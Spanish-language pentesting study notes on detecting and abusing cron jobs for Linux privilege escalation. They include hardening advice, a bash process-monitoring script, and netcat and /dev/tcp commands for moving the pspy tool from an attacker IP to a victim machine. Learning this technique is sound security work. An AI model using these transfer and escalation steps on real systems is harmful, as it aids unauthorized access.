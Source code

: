 -------
- Test: #cron #privilege #escalation 
-----
# Definición

> Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse. Para listar el contenido podemos realizar lo siguiente

- ``crontab -l``

El directorio que contiene la lista de tareas programadas para el sistema es el ``/etc/cron.d``. Además el archivo que contiene todas las tareas cron es el ``/etc/crontab``

La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.

Ahora bien, para detectar tareas cron, los atacantes pueden utilizar herramientas como **Pspy**. Pspy es una herramienta de línea de comandos que monitorea las tareas que se ejecutan en segundo plano en un sistema Unix/Linux y muestra las nuevas tareas que se inician.

Con el objetivo de reducir las posibilidades de que un atacante lograra explotar las tareas cron en un sistema, se recomienda llevar a cabo alguno de los siguientes puntos:

- **Limitar el número de tareas cron**: es importante limitar el número de tareas cron que se ejecutan en el sistema y asegurarse de que solo se otorgan permisos a tareas que requieren permisos especiales para funcionar correctamente. Esto disminuye la superficie de ataque y reduce las posibilidades de que un atacante pueda encontrar una tarea cron vulnerable.
- **Verificar los permisos de las tareas cron**: es importante revisar los permisos de las tareas cron para asegurarse de que solo se otorgan permisos a usuarios y grupos autorizados. Además, se recomienda evitar otorgar permisos de superusuario a las tareas cron, a menos que sea estrictamente necesario.
- **Supervisar regularmente el sistema**: es importante monitorear regularmente el sistema para detectar cambios inesperados en las tareas cron y para buscar posibles brechas de seguridad. Además, se recomienda utilizar herramientas de monitoreo de seguridad para detectar actividades sospechosas en el sistema.
- **Configurar los registros de la tarea cron**: se recomienda habilitar la opción de registro para las tareas cron, para poder identificar cualquier actividad sospechosa en las tareas definidas y para poder llevar un registro de las actividades realizadas por cada una de estas.

-------
# Aportes

Nosotros una vez comprometamos una máquina lo que podemos hacer es dirigirnos a un directorio en el que **como usuarios tengamos permisos de escritura**, por ejemplo el directorio */tmp*, ahí podemos crear un script que permita detectar todas las tareas que se están ejecutando en el sistema a intervalos regulares de tiempo.

**Script**: ``./procmon.sh``

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
  new_process=$(ps -eo user,command)
  diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
  old_process=$new_process
done
```

------

Si quisieramos utilizar una herramienta mas elaborada tenemos el repositorio de [Github](https://github.com/DominicBreuker/pspy) de **Dominic Breuker** para la herramienta ``pspy``, específicamente descargando el **pspy64**. Este archivo lo tendríamos que enviar de alguna manera a la máquina víctima, de esta forma al ejecutarlo luego de darle permisos de ejecución, tal que ``chmod +x && ./pspy`` **monitorearíamos** todas las tareas que se están ejecutando en la máquina.

Para **transferirlo** podemos desde nuestra máquina de atacante realizar ``nc -nlpv 443 < pspy`` para ofrecer por *el puerto 443* la herramienta y en la máquina victima hacer un ``cat < /dev/tcp/192.168.0.194/443 > pspy``.

Algo adicional es que para verificar que la integridad del archivo no fue alterada por el envío como tal, es realizar un ``md5sum pspy`` tanto desde nuestra máquina atacante, como desde la máquina víctima, si los **hashes** son iguales, esto quiere decir que el archivo contiene todo su contenido original.

